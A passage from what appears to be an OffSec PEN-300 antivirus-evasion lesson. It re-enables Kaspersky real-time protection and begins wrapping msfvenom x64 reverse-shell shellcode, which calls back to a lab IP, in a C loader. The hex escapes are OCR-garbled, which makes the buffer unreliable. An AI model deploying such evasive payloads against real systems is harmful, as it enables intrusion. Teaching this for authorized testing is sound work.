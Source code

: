 > Listing 22 - 64-bit Zutto\_Dekiru-encoded Meterpreter ELF file scanned

Let's try a different approach and put our unencoded x64 payload into a C program as shellcode instead.

This time, we'll restore real-time protection to make things more realistic. We can do this by again running kesl-control, this time using the --start-t flag, which starts a task. We'll specify task "1" again (the real-time protection task).

```
offsec@linuxvictim:/tmp$ sudo kesl-control --start-t 1
[sudo] password for offsec: 
Task has been started
```

> Listing 23 - Re-enabling realtime protection for our initial tests

Now that real-time protection is enabled, when we access or run a file, Kaspersky will automatically scan it for viruses.

We can regenerate a 64-bit unencoded shellcode with msfvenom, this time with an output type of "c", on our Kali VM. We will then insert it in a C program, which will act as a wrapper to load and run the shellcode.

We haven't covered C programming in this course, so let's take a moment to review each part of the code individually.

The first three lines are _include_ statements. They allow us access to functions included in the libraries that are defined by the C programming language standard.[2](https://portal.offsec.com/courses/pen-300-9502/learning/linux-post-exploitation-14697/linux-post-exploitation-14872#fn-local_id_432-2)

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
```

> Listing 24 - C code wrapper include statements

The next section is an unsigned character array variable called _buf_ that contains our shellcode output in C format from msfvenom.

```
// Our payload generated by msfvenom
unsigned char buf[] = 
"x48x31xffx6ax09x58x99xb6x10x48x89xd6x4dx31xc9"
"x6ax22x41x5axb2x07x0fx05x48x85xc0x78x51x6ax0a"
"x41x59x50x6ax29x58x99x6ax02x5fx6ax01x5ex0fx05"
"x48x85xc0x78x3bx48x97x48xb9x02x00x05x39xc0xa8"
"x76x03x51x48x89xe6x6ax10x5ax6ax2ax58x0fx05x59"
"x48x85xc0x79x25x49xffxc9x74x18x57x6ax23x58x6a"
"x00x6ax05x48x89xe7x48x31xf6x0fx05x59x59x5fx48"
"x85xc0x79xc7x6ax3cx58x6ax01x5fx0fx05x5ex6ax7e"
"x5ax0fx05x48x85xc0x78xedxffxe6";
```

> Listing 25 - C code wrapper payload buffer
